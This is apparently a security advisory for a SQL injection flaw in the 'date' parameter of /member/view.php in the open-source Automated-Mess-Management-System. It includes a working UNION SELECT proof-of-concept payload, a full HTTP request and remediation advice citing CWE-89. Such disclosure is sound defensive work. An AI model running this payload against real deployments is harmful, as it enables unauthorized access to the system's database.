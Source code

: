 # boyiddha / Automated-Mess-Management-System - /member/view.php SQL Injection

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The SQL Injection vulnerability in the Automated-Mess-Management-System's login functionality allows attackers to execute arbitrary SQL queries, potentially leading to unauthorized access to sensitive data or functionalities, including the admin panel. This poses a significant risk of data breaches and unauthorized actions within the system.

## Proof of Concept
Step 1: Login as a member.\
Step 2: Navigate to "/member/view.php?date='+UNION+SELECT+@@version,null,null,'nochizplz',null+%23"\
Step 3: The page will return the database version, confirming the successful SQL Injection.

## HTTP Request Example
``` http request
GET /member/view.php?date='+UNION+SELECT+@@version,null,null,'nochizplz',null+%23 HTTP/1.1
Host: [REDACTED]
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close
```
## Proof with Screenshot


## Remidiation
To address this issue, developers should implement strict input validation and utilize parameterized queries to prevent SQL Injection attacks. Additionally, access controls should be properly enforced to limit users' privileges and mitigate the impact of potential injection attacks. Regular security assessments and code reviews can help identify and remediate such vulnerabilities effectively.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
